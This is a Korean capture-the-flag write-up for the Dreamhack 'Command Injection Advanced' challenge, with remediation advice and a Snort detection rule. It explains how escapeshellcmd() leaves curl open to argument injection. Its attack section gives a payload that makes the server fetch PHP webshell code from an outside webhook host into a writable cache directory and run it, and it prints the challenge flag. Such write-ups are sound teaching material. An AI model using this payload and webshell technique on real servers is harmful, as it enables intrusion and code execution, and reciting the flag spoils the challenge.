




# [Dreamhack] Command Injection Advanced - Web Hacking

## 1. 문제 개요

* **문제 링크:** [Dreamhack - Command Injection Advanced](https://dreamhack.io/wargame/challenges/413)

* **분야:** Web

* **목표:** `escapeshellcmd()` 필터링을 우회하고 `curl` 인자 주입(Argument Injection)을 통해 시스템 명령어 실행 및 플래그 파일 탈취.


## 2. 취약점 분석
제공된 `index.php`와 `Dockerfile`을 분석한 결과, 명령어 인자 주입 취약점과 권한 설정의 특징을 확인.

```dockerfile
# ... (중략) ...
    RUN chmod 777 /var/www/html/cache/
# ... (중략) ...
    # FLAG
    COPY deploy/flag.c /flag.c
    RUN apt install -y gcc \
        && gcc /flag.c -o /flag \
        && chmod 111 /flag && rm /flag.c
# ... (중략) ...
```
* `/flag` 바이너리는 `111` (실행) 권한만 부여되어 있어 단순 파일 읽기(`cat`)로는 내용을 확인할 수 없으며, 직접 실행해야만 플래그를 획득할 수 있음.
* `/cache/` 디렉터리는 `777` 권한이 부여되어 있어 외부에서 임의의 파일을 생성(Write)할 수 있는 조건이 갖춰짐.

```php
// ... (중략) ...
    if(isset($_GET['url'])){
        $url = $_GET['url'];
        if(strpos($url, 'http') !== 0 ){
            die('http only !');
        }else{
            $result = shell_exec('curl ' . escapeshellcmd($_GET['url']));
            $cache_file = './cache/'.md5($url);
// ... (중략) ...
```

* **분석 결론:** `escapeshellcmd()` 함수는 세미콜론(`;`)이나 파이프(`|`) 같은 셸 메타 문자를 이스케이프 처리하여 다중 명령어 실행은 방어하나, 공백 문자는 필터링하지 않음. 이로 인해 공격자가 파라미터에 공백을 넣어 `curl` 명령어의 옵션(인자)을 임의로 추가하는 Argument Injection 취약점 발생. 이를 악용해 외부 서버의 악성 코드를 서버 내부 디렉터리(`.cache/`)에 `.php` 파일로 다운로드(File Write) 가능.


## 3. 공격 수행
`curl`의 응답 결과를 파일로 저장하는 `-o` 옵션을 활용하여 웹셸을 업로드.

1. 외부 웹훅 서버(Webhook.site) 환경을 구성하고, 응답 데이터(Content)에 `system("/flag")`를 실행하는 PHP 웹셸 코드 세팅.



2. 웹 브라우저를 통해 문제 서버로 접근하여, 생성한 웹훅 주소와 함께 `curl`의 `-o` 옵션을 주입. 타겟 서버 내부에 `exploit.php` 파일명으로 저장되도록 페이로드 전송. (`?url=https://webhook.site/06ad9ec8-ceb8-44d1-8f10-74cd0c5423fb -o ./cache/exploit.php`)



3. 구축해 둔 웹훅 서버 수신 로그를 통해, 타겟 서버(웹 서버) 정상 HTTP GET 요청 로그 확인. (페이로드 업로드 성공)



4. 업로드 경로인 `/cache/exploit.php`에 브라우저로 직접 접속하여 저장된 웹셸 동작 및 명령어 실행.


## 4. 획득 결과
저장된 PHP 파일이 서버 내부에서 실행되며 최종 서버 플래그 화면 출력.



* **FLAG:** `DH{8ca5256a49452e4db9de7691a9c69b7678271383}`


## 5. 대응 방안
시큐어 코딩 관점에서 셸 호출 최소화 및 시스템 명령어 입력값에 대한 철저한 검증 적용 요망.

* **안전한 라이브러리 사용:** 시스템 셸을 호출하는 `shell_exec()` 및 `curl` 바이너리 직접 실행을 지양하고, PHP 내장 `cURL` 모듈(`curl_init()`, `curl_exec()`)을 활용하여 셸 메타 문자 개입 원천 차단.

* **안전한 이스케이프 함수 적용:** 불가피하게 외부 명령어를 호출해야 할 경우, `escapeshellcmd()` 대신 `escapeshellarg()`를 사용하여 사용자 입력 전체를 단일 문자열로 묶어 인자 분리(공백 공격) 방지.

* **입력값 화이트리스트 검증:** 정규표현식을 통해 `$_GET['url']`의 값이 올바른 URL 형태인지 엄격하게 검사하고, 공백 문자나 허용되지 않은 특수기호 필터링 처리.


## 6. 블루팀 관점 요약
보안관제 및 침해사고 대응(IR) 관점에서 Argument Injection 시도 및 비정상 스크립트 생성 행위 탐지.

* **WAF 및 웹 서버 로그 분석:** Access 로그 모니터링 시, 파라미터 내에 `curl` 명령어 옵션인 `-o`, `--output` 과 함께 특정 파일 확장자(`.php`, `.sh` 등)가 포함된 비정상 HTTP 트래픽 식별. 또한 `/cache/` 등 쓰기 권한이 있는 업로드 디렉터리에서 실행 파일이 직접 호출되는 행위 분석.

* **침해사고 대응 시나리오:** 특정 IP에서 웹셸 업로드 정황 발견 시, 해당 시간대 웹 서버 아웃바운드 트래픽 로그를 조사하여 외부망의 비정상 도메인으로 전송된 DNS 쿼리 및 HTTP 데이터 유출 여부 검증.

* **네트워크 기반 탐지 룰 제안 (Snort):**
  - URL 파라미터를 통해 `curl` 옵션 인자 주입 및 악성 스크립트를 다운로드하는 공격 패턴 탐지.

  - `alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"[Web] curl Argument Injection File Download Detected"; flow:to_server,established; content:"url="; http_uri; pcre:"/url=.*(?:-o|--output)\s+.*\.php/i"; sid:1000004; rev:1;)`